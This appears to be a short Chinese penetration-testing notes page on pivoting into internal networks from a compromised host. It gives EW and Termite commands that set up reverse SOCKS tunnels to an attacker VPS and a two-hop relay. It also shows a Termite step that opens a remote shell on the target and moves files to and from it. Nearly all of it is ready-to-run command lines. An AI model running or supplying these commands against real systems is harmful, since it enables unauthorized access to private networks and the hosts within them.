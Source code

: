 目标机器没有公网IP，但可以访问公网资源

1. EW：



```bash
VPS： ew -s rcsocks -l 1080 -e 999
Target: ew -s rssocks -d vps的IP -e 999
```

然后就可以用VPS上的1080作为代理进入内网

2. Termite

```bash
VPS:  ./agent_Linux64 -l 888
Target: ./agent_exe -c VPS的IP -p 888
VPS: ./admin_Linux64 -c 127.0.0.1 -p 888
此时获取一个admin的终端，然后查看节点，target会变成2节点
goto 2
socks 1081  //现在可以以vps上面1081作为代理进入目标内网
shell 6666  //在vps上面直接nc 127.0.0.1 6666可以获取目标主机的shell
```

![](/img/hack/%E4%BB%A3%E7%90%86/Termite/%E5%8F%8D%E5%BC%B9socks.png)

> downfile和upfile  //可以直接下载上传文件

## 二级网络环境

1. EW：

```bash
//在vps上面添加转接隧道，把10800端口收到的代理请求转发给888
VPS: ew -s lcx_listen -l 10800 -e 888 

//B主机启动socks代理，端口999
B: ew -s ssocksd -l 999   

//在A主机上面使用lcx_slave的方式，把公网的888端口和B主机的999端口连接起来
A: ew -s lcx_slave -d VPS的IP -e 888 -f 10.48.128.49 -g 999 

//现在可以通过vps的10800来使用B主机架设的socks5代理
```
